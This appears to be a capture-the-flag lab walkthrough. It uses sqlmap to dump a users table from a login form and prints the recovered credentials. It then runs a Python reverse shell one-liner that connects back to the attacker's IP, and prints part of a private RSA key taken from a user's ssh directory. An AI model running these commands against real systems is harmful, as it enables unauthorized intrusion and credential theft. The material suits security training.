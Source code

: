 
### PART 3 - Web Exploitation

We first try credentials `admin:admin` and some other basic ones, and find nothing.
The hint here is to use sqlmap:

```sh
sqlmap -u 10.10.246.185/administrator.php --forms --dump
```

Outputted this:

```sh
Database: users
Table: users
[1 entry]
+----------+------------+
| username | password   |
+----------+------------+
| pingudad | secretpass |
+----------+------------+
```

`--forms` = Automatically selects parameters from <form> elements on the page
`-a` = Dump everything from the database
`--dump` = Used to retrieve data from the db once SQLI is found


### PART 4 - Command Execution

We set up a listener on our own machine:
```sh
nc -lnvp 9001
```

Then we use the python reverse shell from pentestmonkey:
```sh
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.33.116",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The listener will catch it, and we get a reverse shell back. We can stabelize it with the following commands:
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```
Found a private rsa key in the ssh directory inder the user pengu:

```
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEArfwVtcBusqBrJ02SfHLEcpbFcrxUVFezLYEUUFTHRnTwUnsU
aHa3onWWNQKVoOwtr3iaqsandQoNDAaUNocbxnNoJaIAg40G2FEI49wW1Xc9porU
x8haIBCI3LSjBd7GDhyh4T6+o5K8jDfXmNElyp7d5CqPRQHNcSi8lw9pvFqaxUuB
ZYD7XeIR8i08IdivdH2hHaFR32u3hWqcQNWpmyYx4JhdYRdgdlc6U02ahCYhyvYe
LKIgaqWxUjkOOXRyTBXen/A+J9cnwuM3Njx+QhDo6sV7PDBIMx+4SBZ2nKHKFjzY
y2RxhNkZGvL0N14g3udz/qLQFWPICOw218ybaQIDAQABAoIBAClvd9wpUDPKcLqT
hueMjaycq7l/kLXljQ6xRx06k5r8DqAWH+4hF+rhBjzpuKjylo7LskoptYfyNNlA
V9wEoWDJ62vLAURTOeYapntd1zJPi6c2OSa7WHt6dJ3bh1fGjnSd7Q+v2ccrEyxx
wC7s4Is4+q90U1qj60Gf6gov6YapyLHM/yolmZlXunwI3dasEh0uWFd91pAkVwTb
FtzCVthL+KXhB0PSQZQJlkxaOGQ7CDT+bAE43g/Yzl309UQSRLGRxIcEBHRZhTRS
M+jykCBRDJaYmu+hRAuowjRfBYg2xqvAZU9W8ZIkfNjoVE2i+KwVwxITjFZkkqMI
jgL0oAECgYEA3339Ynxj2SE5OfD4JRfCRHpeQOjVzm+6/8IWwHJXr7wl/j49s/Yw
3iemlwJA7XwtDVwxkxvsfHjJ0KvTrh+mjIyfhbyj9HjUCw+E3WZkUMhqefyBJD1v
tTxWWgw3DKaXHqePmu+srUGiVRIua4opyWxuOv0j0g3G17HhlYKL94ECgYEAx0qf
ltrdTUrwr8qRLAqUw8n1jxXbr0uPAmeS6XSXHDTE4It+yu3T606jWNIGblX9Vk1U
mcRk0uhuFIAG2RBdTXnP/4SNUD0FDgo+EXX8xNmMgOm4cJQBdxDRzQa16zhdnZ0C
xrg4V5lSmZA6R38HXNeqcSsdIdHM0LlE31cL1+kCgYBTtLqMgo5bKqhmXSxzqBxo
zXQz14EM2qgtVqJy3eCdv1hzixhNKO5QpoUslfl/eTzefiNLN/AxBoSAFXspAk28
4oZ07pxx2jeBFQTsb4cvAoFuwvYTfrcyKDEndN/Bazu6jYOpwg7orWaBelfMi2jv
```